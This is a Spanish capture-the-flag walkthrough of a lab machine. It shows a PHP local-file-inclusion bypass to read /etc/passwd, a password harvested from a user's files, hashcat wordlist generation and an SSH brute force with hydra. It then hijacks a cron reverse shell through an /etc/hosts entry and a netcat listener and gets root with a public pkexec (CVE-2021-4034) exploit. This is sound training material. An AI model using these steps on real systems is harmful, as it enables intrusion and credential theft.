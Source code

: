 Realizamos un escaneo de nmap y encontramos el puerto 22 y 80 abierto
![[Pasted image 20240617074840.png]]

Revisando tanto en la web como con la herramienta whatweb de momento encontramos un posible usuario
![[Pasted image 20240617075219.png]]

Realizamos uns busqueda de archivos y directorios con gobuster y encontramos un directorio que parece sospechoso
![[Pasted image 20240617075455.png]]

Al acceder nos aparecen información sobre una plantilla llamada "Atlanta"
![[Pasted image 20240617075530.png]]



Revisando la web encontramos que es vulnerable a local file inclusion pero que tiene una configuración de sanetización
Este es el filto de sanetización que utiliza para intentar evadir la vulnerabilidad de lfi
```php
<?php 

function sanitize_input($param) {
    $param1 = str_replace("../","",$param);
    $param2 = str_replace("./","",$param1);
    return $param2;
}

$page = $_GET['page'];
if (isset($page) && preg_match("/^[a-z]/", $page)) {
    $page = sanitize_input($page);
    readfile($page);
} else {
    header('Location: /index.php?page=home.html');
}

?>
```

No funciona de manera basica, hay que añadirle un wrappers
![[Pasted image 20240617085222.png]]

Ahora lo descodificamos y sacamos el contenido de index.php
```bash
echo "PD9waHAgCgpmdW5jdGlvbiBzYW5pdGl6ZV9pbnB1dCgkcGFyYW0pIHsKICAgICRwYXJhbTEgPSBzdHJfcmVwbGFjZSgiLi4vIiwiIiwkcGFyYW0pOwogICAgJHBhcmFtMiA9IHN0cl9yZXBsYWNlKCIuLyIsIiIsJHBhcmFtMSk7CiAgICByZXR1cm4gJHBhcmFtMjsKfQoKJHBhZ2UgPSAkX0dFVFsncGFnZSddOwppZiAoaXNzZXQoJHBhZ2UpICYmIHByZWdfbWF0Y2goIi9eW2Etel0vIiwgJHBhZ2UpKSB7CiAgICAkcGFnZSA9IHNhbml0aXplX2lucHV0KCRwYWdlKTsKICAgIHJlYWRmaWxlKCRwYWdlKTsKfSBlbHNlIHsKICAgIGhlYWRlcignTG9jYXRpb246IC9pbmRleC5waHA/cGFnZT1ob21lLmh0bWwnKTsKfQoKPz4K" | base64 -d
```
![[Pasted image 20240617085310.png]]

Ahora sacamos la información del archivo /etc/passwd del mismo modo y encontramos dos usuarios red y blue.
![[Pasted image 20240617083642.png]]

Ahora revisamos el historia bash del usuario blue y encontramos el sigueinte codigo
![[Pasted image 20240617085824.png]]

Revisamos el contenido del archivo .reminder y encontramos la siguiente password
![[Pasted image 20240617090256.png]]

Ahora generaremos una lista con posibles contraseñas con esta password, para ello primero creamos el fichero
![[Pasted image 20240617091931.png]]

Y ahora ejecutamos el siguiente comando con hashcat
```Bash
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
```
![[Pasted image 20240617092024.png]]
- `hashcat --stdout .reminder`: Lee las entradas del archivo `.reminder` y las muestra en la salida estándar.
- `-r /usr/share/hashcat/rules/best64.rule`: Aplica la regla `best64.rule` para generar variaciones de las contraseñas.
- `> passlist.txt`: Redirige la salida estándar al archivo `passlist.txt`.

Ahora realizamos un ataque de fuerza bruta con hydra y el fichero creado con hashcat y la contraseña encontrada en el fichero .reminder
![[Pasted image 20240617093348.png]]

Accedemos por ssh con el usuario blue con el parametro -T para evitar la asignación de un pseudo-terminal interactivo lo que ganamos que no se ejecuten scripts de inicio y asi que ningun proceso nos eche del sistema
![[Pasted image 20240617095727.png]]

Ahora revisamos y encontramos un trabajo ejecutandose cada minuto el cual genera una reverse shell
![[Pasted image 20240617095848.png]]

Otra manera de revisarlo es con la herramienta pspy64
![[Pasted image 20240617095930.png]]

Para obtener la reverse shell añadiremos a la carpete de /etc/hosts de la maquina victima nuestra ip con el dominio que indica el proceso para que podamos resolver la dirección IP
```Bash
echo "10.9.0.93 redrules.thm" | tee -a /etc/hosts
```
![[Pasted image 20240617103143.png]]

Una vez añadido solo quedara ponernos en escucha con netcat por el puerto 9001 y cuando se ejecute el proceso obtendremos la reverse shell
![[Pasted image 20240617103441.png]]

Ahora que tenemos acceso vamos a intentar obtener acceso con root, para ello revisamos los binario y encontramos algo interesante
![[Pasted image 20240617103803.png]]

Vamos a la ruta y ahí encontramos el binario
![[Pasted image 20240617103904.png]]

Revisamos que version tiene
![[Pasted image 20240617110049.png]]

Ahora procederemos a explotar la vulnerabilidad CVE-2021-4034, asi que copiamos el repositorio raw en un fichero .py y lo configuramos cambiando la url donde se ubica el binario pkexec
```
https://raw.githubusercontent.com/Almorabea/pkexec-exploit/main/CVE-2021-4034.py
```
![[Pasted image 20240617114817.png]]

Lo descargamos y al ejecutarlo obtenemos permisos root
![[Pasted image 20240617115014.png]]



